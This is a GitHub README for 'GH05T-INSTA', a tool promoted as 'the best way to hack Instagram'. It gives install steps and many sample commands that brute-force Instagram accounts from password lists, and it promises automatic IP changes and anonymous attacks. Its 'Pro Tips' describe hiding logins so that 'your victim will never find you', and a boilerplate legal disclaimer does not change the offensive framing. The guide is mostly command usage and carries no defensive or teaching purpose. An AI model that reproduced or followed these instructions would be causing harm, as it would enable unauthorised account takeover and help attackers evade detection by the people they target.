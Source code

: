 ## Notice

<b><i>Please do not clone or download this tool because we are trying to fix the problems and we don't know how many possibilities there are to solve these problems.</i><b>

<!--
<img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA"><br>
<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
## Linux Installation 3.01 

`Install Home` 

`$ cd home/`

<b>This is just a test, please send your valuable feedback {Linux}</b>

```
chmod +x *
```
```
./setup-linux.sh
```
```
./gh05t --help
```

<b>or</b>

```
./gh05t
```

<b>Linux Command : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.linux/README.md">Click This</a></b>

<b>Report : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new?assignees=&labels=&template=bug_report.md&title=">Issues</a></b>

## Termux Installation 3.01 

```
pkg update && pkg upgrade
```
```
pkg install tor -y
```
```
pkg update tor -y 
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

## This Tool is not working properly Please wait we are trying to solve this problem 

<img src="https://user-images.githubusercontent.com/123439847/214219519-bea6426e-866f-42a9-8850-e8ab340020cc.png">
-->
## We are trying to solve {all} (your issue) this problem

#### Please {Support}

```bash
read -p 'Enter your name : ' user
gh05t --user $user --pass 18
``

### Banner

```
     ██████╗ ██╗  ██╗ ██████╗ ███████╗████████╗  
    ██╔════╝ ██║  ██║██╔═████╗██╔════╝╚══██╔══╝ 
    ██║  ███╗███████║██║██╔██║███████╗   ██║     
    ██║   ██║██╔══██║████╔╝██║╚════██║   ██║     
    ╚██████╔╝██║  ██║╚██████╔╝███████║   ██║     
     ╚═════╝ ╚═╝  ╚═╝ ╚═════╝ ╚══════╝   ╚═╝      
       ██╗███╗   ██╗███████╗████████╗ █████╗     
       ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗    
       ██║██╔██╗ ██║███████╗   ██║   ███████║    
       ██║██║╚██╗██║╚════██║   ██║   ██╔══██║    
       ██║██║ ╚████║███████║   ██║   ██║  ██║    
       ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝    


  ```
